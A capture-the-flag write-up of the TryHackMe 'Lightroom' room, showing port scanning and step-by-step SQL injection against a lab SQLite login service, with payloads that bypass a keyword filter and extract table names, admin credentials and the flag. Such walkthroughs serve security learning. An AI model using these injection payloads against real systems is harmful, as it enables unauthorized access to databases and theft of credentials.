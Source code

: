 ```yaml
---
title: "Lightroom"
date: 2025-01-18T09:36:24+01:00
draft: false
hidden: false
tags:
    - ctf
    - writeup
    - tryhackme
summary: ""
---
```


|Revised Date | Author | Comment |
| ----------- | ------ | ------- |
| 19.01.2025  | Roger Johnsen | Article added |

## Introduction

>_I am working on a database application called Light! Would you like to try it out?
If so, the application is running on port 1337. You can connect to it using nc 10.10.199.201 1337
You can use the username smokey in order to get started._
>
>_Note: Please allow the service 2 - 3 minutes to fully start before connecting to it._

--- 

## Portscanning

```bash
nmap -sS -Pn -p- 10.10.199.201 -oN scan.txt

# Nmap 7.94SVN scan initiated Sat Jan 18 12:34:04 2025 as: /usr/lib/nmap/nmap --privileged -sS -Pn -p- -oN scan.txt 10.10.199.201
Nmap scan report for 10.10.199.201
Host is up (0.059s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
1337/tcp open  waste
```

## Enumerating service

```bash
nc 10.10.199.201 1337

Welcome to the Light database!
Please enter your username: smokey
Password: vYQ5ngPpw8AdUmL
Please enter your username: '
Error: unrecognized token: "''' LIMIT 30"
Please enter your username: --
For strange reasons I can't explain, any input containing /*, -- or, %0b is not allowed :)
```
Initial prodding of the login prompt reveals the following:  

- If a username exists, the system returns and displays the associated password.  
- The prompt suggests a database is involved, making SQL injection the most likely vulnerability.  
- Inserting a single quotation mark (`'`) results in an SQL error.  
- Input filtering appears to be in place.  

```bash
nc 10.10.199.201 1337
Welcome to the Light database!

Please enter your username: 
Password: tF8tj2o94WE4LKC
Please enter your username: ' or username like 'a%
Password: tF8tj2o94WE4LKC
Please enter your username: ' or username like 'x%
Username not found.
Please enter your username:
```

Further prodding using the following payloads:

| Payload | Result | 
| ------- | ------ |
| ```' or '1'='1``` | Returns a different password than for "smokey" |
| ```' or username like 'a%``` | Returns the same password as above mentioned "OR" statement |
| ```' or username like 'x%``` | No user founds. Verification that I have guessed the correct column and that there are no users starting with "x" | 

#### The hints

The room's description states, *"I am working on a database application called Light."* The room itself is named *"Light,"* and the URL for the room is *"/lightroom."* Seeing these in combination, it seems likely that we are dealing with SQLite - phonetically, it makes sense. Therefore, I will base my investigation on this assumption moving forward.  

## Enumerating database

### Tables

For standard querying, listing tables in SQLite can be accomplished with the following query, which we will exploit shortly:

```sql
SELECT name FROM sqlite_master WHERE type = 'table' ORDER BY name;
```

When applied to the application's input, we get something like this:

```sql
x' Union SELECT name FROM sqlite_master WHERE type='table
```

Putting this into practice:

```bash
nc 10.10.147.110 1337

Welcome to the Light database!
Please enter your username: x' UNION SELECT name FROM sqlite_master WHERE type='table
Ahh there is a word in there I don't like :(
Please enter your username: 
```

While debugging, it seems the backend does not accept the "SELECT" keyword, even in lowercase. However, this works:  

```bash
nc 10.10.147.110 1337

Welcome to the Light database!
Please enter your username: x' Union Select name FROM sqlite_master WHERE type='table
Password: admintable
Please enter your username: 
```

### Users

We now know the table name, "admintable." Let's see if we can retrieve its contents! We'll use the same logic as above:

```sql
x' Union Select username FROM admintable WHERE username like '%
```

Putting this into practice:

```bash
nc 10.10.147.110 1337

Welcome to the Light database!
Please enter your username: x' Union Select username FROM admintable WHERE username like '%
Password: T*************
Please enter your username: T*************
Username not found.
Please enter your username:
```

Although we can extract the username, we cannot retrieve the password by simply entering the username at the prompt. However, we must use SQL injection once again:

```sql
```sql
x' Union Select password FROM admintable WHERE username like 'T%
```

Putting this into practice:

```bash
nc 10.10.147.110 1337

Welcome to the Light database!
Please enter your username: x' Union Select password FROM admintable WHERE username like 'T%
Password: m*******************
Please enter your username: 
```

At this point, I thought I could simply SSH into the machine and retrieve the flag. Unfortunately, the credentials didn’t work. So, I decided to revisit probing the database.

### Flag

It appears that there is only one table in the database. Perhaps there is more content I'm not aware of? I’m trying this route without looking at the username I recently found:

```sql
x' Union Select password FROM admintable WHERE username not like 'T%
```

Putting this into practice:

```bash
nc 10.10.147.110 1337         
Welcome to the Light database!
Please enter your username: x' Union Select password FROM admintable WHERE username not like 'T%
Password: THM{******************************}
Please enter your username:
```

And there’s the flag.